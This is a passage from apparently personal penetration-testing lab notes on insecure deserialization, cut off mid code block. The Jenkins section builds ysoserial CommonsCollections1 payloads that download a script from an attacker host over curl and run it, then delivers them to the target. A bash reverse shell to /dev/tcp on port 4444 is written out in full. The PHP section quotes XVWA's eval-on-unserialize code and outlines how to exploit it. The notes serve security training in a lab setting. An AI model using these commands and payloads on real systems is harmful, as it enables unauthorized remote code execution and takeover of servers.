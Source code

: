 ```html
https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py
```
We create as usual a reverse shell to host on our machine with:
```bash
bash -i >& /dev/tcp/192.83.182.2/4444 0>&1
```
We create the three necessary payloads with:
```bash
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "curl http://192.83.182.2:8888/revs.sh -o /tmp/revs.sh" > /root/get_shell_payload
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "chmod 777 /tmp/revs.sh" > /root/executable_shell_payload
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "bash /tmp/revs.sh" > /root/run_shell_payload
```
Now, we run the script three times to execute the three payloads:
```bash
python jenkins.py 192.83.182.3 8080 get_shell_payload
python jenkins.py 192.83.182.3 8080 executable_shell_payload
python jenkins.py 192.83.182.3 8080 run_shell_payload
```
And this way we get a shell on our machine.
## PHP
We have an instance of XVWA. We go to the php_object_injection webpage and after clicking the button we get back a url with a serialized PHP object:
```bash
http://demo.ine.local/xvwa/vulnerabilities/php_object_injection/?r=a:2:{i:0;s:4:%22XVWA%22;i:1;s:33:%22Xtreme%20Vulnerable%20Web%20Application%22;}
# The object translates as follows
{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}
```
We need the source code of the webapp to try and trigger an insecure deserialization.
We can get it from here: https://github.com/s4n7h0/xvwa/blob/master/vulnerabilities/php_object_injection/home.php
The interesting snipped is as follows:
```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        
        if(is_array($var1)){ 
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }else{
        echo ""; # nothing happens here
    }
?>
```
So, it checks if the r variable is set, and if it is, then it calls unserialize which in turn calls __wakeup. We can therefore set an inject field in the object which will be passed to eval, thus resulting in RCE.
We can construct the object as follows (let's try a simple payload first):
```php
<?php
```
